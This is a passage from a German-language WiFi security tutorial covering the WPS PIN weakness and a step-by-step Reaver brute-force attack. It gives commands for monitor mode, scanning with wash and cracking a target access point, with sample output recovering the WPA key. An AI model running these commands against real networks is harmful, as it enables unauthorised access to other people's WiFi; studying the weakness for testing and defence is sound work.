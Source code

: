 
## 6. WPS PIN Attacks

### Theorie: WPS Schwachstelle

**WPS (WiFi Protected Setup):**
- Vereinfachte Verbindung zu WPA2-Netzwerken
- 8-stelliger PIN (z.B. 12345678)
- Push-Button oder PIN-Entry

**Schwachstelle:**
- PIN wird in zwei Hälften geprüft (4 + 4 Ziffern)
- Erste 4 Ziffern: 10.000 Möglichkeiten
- Letzte 3 Ziffern: 1.000 Möglichkeiten (letzte Ziffer ist Checksum)
- **Total: Nur 11.000 Versuche statt 100.000.000!**

**Attack-Zeit:**
- Pro Versuch: ~2 Sekunden (Rate-Limiting vom AP)
- Worst Case: 11.000 × 2s = 22.000s = ~6 Stunden

### WPS Bruteforce mit Reaver

```bash
# Installiere Reaver
apt-get install reaver

# Monitor Mode
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

# Finde WPS-enabled APs
wash -i wlan0

# Output:
# BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
# AA:BB:CC:DD:EE:FF   6   -45  2.0  No   Linksys   MeinNetz
```

**WPS 2.0 = Anfällig, Lck = Unlocked**

**Starte Reaver:**
```bash
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -vv

# Parameter:
# -i wlan0               = Interface
# -b AA:BB:CC:DD:EE:FF   = Target BSSID
# -vv                    = Verbose

# Output:
# [+] Waiting for beacon from AA:BB:CC:DD:EE:FF
# [+] Received beacon from AA:BB:CC:DD:EE:FF
# [+] Trying pin "12345670"
# [+] Sending authentication request
# ...
# [+] Trying pin "23456781"
# ...
# [+] WPS PIN: '12345678'
# [+] WPA PSK: 'SuperSecret123'
# [+] AP SSID: 'MeinNetz'
```
